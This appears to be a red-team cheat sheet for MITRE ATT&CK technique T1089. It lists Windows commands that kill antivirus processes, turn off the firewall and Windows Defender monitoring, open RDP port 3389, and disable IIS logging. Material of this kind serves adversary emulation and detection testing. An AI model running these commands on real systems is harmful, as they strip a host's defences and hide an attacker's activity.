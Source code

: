 # Disabling Security Tools

MITRE ATT&CK Technique: [T1089](https://attack.mitre.org/wiki/Technique/T1089)

### Terminate Anti-Virus Processes
    Taskkill /F /IM avprocess.exe

### Disable Firewall
    netsh firewall set opmode disable

### Stop Windows Security Center
    net stop wscsvc

### Add Local Firewall Rule Exceptions : Enable a Program
    netsh advfirewall firewall add rule name="My Application" dir=in action=allow program="C:\MyApp\MyApp.exe" enable=yes

### Add Local Firewall Rule Exceptions : Enable a Port
    netsh advfirewall firewall add rule name="Open Remote Desktop" protocol=TCP dir=in localport=3389 action=allow

### Disable The LAN Network Connection
    netsh interface set interface name="Local Area Connection" admin=disabled

## Stop Windows Defender

### Windows 7/8
   net stop windefend

### Windows 10
    Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
    Set-MpPreference -DisableIOAVProtection $true -Verbose
    Set-MpPreference -DisableBehaviorMonitoring $true -Verbose
    Set-MpPreference -DisableIntrusionPreventionSystem $true -Verbose
    Set-MpPreference -DisablePrivacyMode $true -Verbose

## Disable Default Web Site Logging IIS 7

### Disable Default Web Site Logging IIS 7
    %windir%\system32\inetsrv\appcmd.exe set config "Default Web Site" -section:system.webServer/httpLogging /dontLog:"True" /commit:apphost

### Restart Default Web Site IIS 7
    %windir%\system32\inetsrv\appcmd.exe stop site /site.name:"Default Web Site" && %windir%\system32\inetsrv\appcmd.exe start site /site.name:"Default Web Site"

